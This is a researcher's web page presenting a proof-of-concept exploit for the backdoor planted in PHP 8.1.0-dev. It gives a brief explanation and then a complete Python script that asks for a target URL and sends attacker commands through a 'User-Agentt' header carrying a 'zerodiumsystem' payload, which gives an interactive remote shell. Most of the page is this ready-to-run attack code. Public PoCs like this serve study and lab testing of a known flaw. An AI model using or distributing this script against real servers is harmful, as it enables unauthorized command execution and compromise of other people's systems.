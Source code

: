 _[<-- Home](https://flast101.github.io)_

# PHP 8.1.0-dev Backdoor Remote Code Execution
_PHP 8.1.0-dev Backdoor System Shell Script_

![docs/logo_php8.png](docs/logo_php8.png "docs/logo_php8.png")



* * * 

## POC Script

- **Exploit Title:** PHP 8.1.0-dev Backdoor Remote Command Execution    
- **Date:** 23 may 2021   
- **Exploit Author:** flast101   
- **Vendor Homepage:** [https://www.php.net/](https://www.php.net/)    
- **Software Link:**     
    [https://hub.docker.com/r/phpdaily/php]([https://hub.docker.com/r/phpdaily/php])        
    [https://github.com/phpdaily/php](https://github.com/phpdaily/php)    
- **Tested on version:** 8.1.0-dev    
- **CVE** : N/A    
- Previous vulnerability references:    
[https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a](https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a)    
[https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/php/8.1-backdoor/README.zh-cn.md)    


An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.

The following exploit uses the backdoor to provide a pseudo system shell on the host.


```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Be Curious, Learning is Life !

_[<-- Home](https://flast101.github.io)_




<!-- Global site tag (gtag.js) - Google Analytics -->
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-173692234-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-173692234-1');
</script>

